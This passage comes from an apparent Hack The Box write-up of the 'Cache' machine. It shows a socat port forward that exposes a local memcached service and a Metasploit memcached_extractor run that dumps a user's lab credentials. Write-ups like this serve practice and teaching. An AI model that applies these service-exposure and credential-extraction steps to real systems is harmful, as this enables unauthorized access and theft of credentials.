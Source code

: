 As the service is only available for localhost, we will use `socat` to redirect the local to make the service available to the outside. Transfer `socat` to the target and use it to make a port redirection as follows:

~~~
ash@cache:~$ ./socat TCP-LISTEN:11111,fork TCP:127.0.0.1:11211 &
./socat TCP-LISTEN:11111,fork TCP:127.0.0.1:11211 &
[1] 20975
~~~

Now, from the attacker's machine, let's use Metasploit to extract the cache:

~~~
kali@kali:/data/Cache/files$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > use auxiliary/gather/memcached_extractor
msf5 auxiliary(gather/memcached_extractor) > show options

Module options (auxiliary/gather/memcached_extractor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    11211            yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(gather/memcached_extractor) > set rhost cache.htb
rhost => cache.htb
msf5 auxiliary(gather/memcached_extractor) > set rport 11111
rport => 11111
msf5 auxiliary(gather/memcached_extractor) > run

[+] 10.10.10.188:11111    - Found 4 keys

Keys/Values Found for 10.10.10.188:11111
========================================

 Key      Value
 ---      -----
 account  "VALUE account 0 9\r\nafhj556uo\r\nEND\r\n"
 file     "VALUE file 0 7\r\nnothing\r\nEND\r\n"
 passwd   "VALUE passwd 0 9\r\n0n3_p1ec3\r\nEND\r\n"
 user     "VALUE user 0 5\r\nluffy\r\nEND\r\n"

[+] 10.10.10.188:11111    - memcached loot stored at /home/kali/.msf4/loot/20200917093828_default_10.10.10.188_memcached.dump_842689.txt
[*] cache.htb:11111       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
~~~

The cache contains luffy's credentials: `luffy:0n3_p1ec3`

## Lateral move (ash->luffy)
